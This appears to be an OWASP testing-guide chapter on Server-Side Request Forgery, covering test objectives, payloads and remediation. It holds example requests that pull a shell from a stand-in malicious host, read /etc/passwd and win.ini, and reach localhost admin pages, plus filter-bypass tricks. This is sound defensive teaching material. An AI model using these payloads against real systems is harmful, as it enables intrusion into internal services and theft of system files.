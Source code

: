 # Testing for Server-Side Request Forgery

|ID          |
|------------|
|WSTG-INPV-18|

## Summary

Web applications often interact with internal or external resources. While you may expect that only the intended resource will be handling the data you send, improperly handled data may create a situation where injection attacks are possible. One type of injection attack is called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases, it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify SSRF injection points.
- Test if the injection points are exploitable.
- Asses the severity of the vulnerability.

## How to Test

When testing for SSRF, you attempt to make the targeted server inadvertently load or save content that could be malicious. The most common test is for local and remote file inclusion. There is also another facet to SSRF: a trust relationship that often arises where the application server is able to interact with other back-end systems that are not directly reachable by users. These back-end systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. These internal systems often contain sensitive data or functionality.

Consider the following request:

``` http
GET https://example.com/page?page=about.php
```

You can test this request with the following payloads.

### Load the Contents of a File

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Access a Restricted Page

```http
GET https://example.com/page?page=http://localhost/admin
```

Or:

```http
GET https://example.com/page?page=http://127.0.0.1/admin
```

Use the loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host, you also have privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what enables SSRF to be a critical vulnerability.

### Fetch a Local File

```http
GET https://example.com/page?page=file:///etc/passwd
```

### HTTP Methods Used

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.

One important note on SSRF with POST requests is that the SSRF may also manifest in a blind manner, because the application may not return anything immediately. Instead, the injected data may be used in other functionality such as PDF reports, invoice or order handling, etc., which may be visible to employees or staff but not necessarily to the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [references section](#references).

### PDF Generators

In some cases, a server may convert uploaded files to PDF format. Try injecting `<iframe>`, `<img>`, `<base>`, or `<script>` elements, or CSS `url()` functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`. This can be circumvented by:

- Using alternative IP representation that evaluate to `127.0.0.1`:
    - Decimal notation: `2130706433`
    - Octal notation: `017700000001`
    - IP shortening: `127.1`
- String obfuscation
- Registering your own domain that resolves to `127.0.0.1`

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented, resulting in attacks similar to [semantic attacks](https://tools.ietf.org/html/rfc3986#section-7.6).

- Using the `@` character to separate between the userinfo and the host: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

For additional payloads and bypass techniques, see the [references](#references) section.

## Remediation

SSRF is known to be one of the hardest attacks to defeat without the use of allow lists that require specific IPs and URLs to be allowed. For more on SSRF prevention, read the [Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## References

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd Webinar: SSRF](https://www.bugcrowd.com/resources/webinars/server-side-request-forgery/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [URI Generic Syntax](https://tools.ietf.org/html/rfc3986)
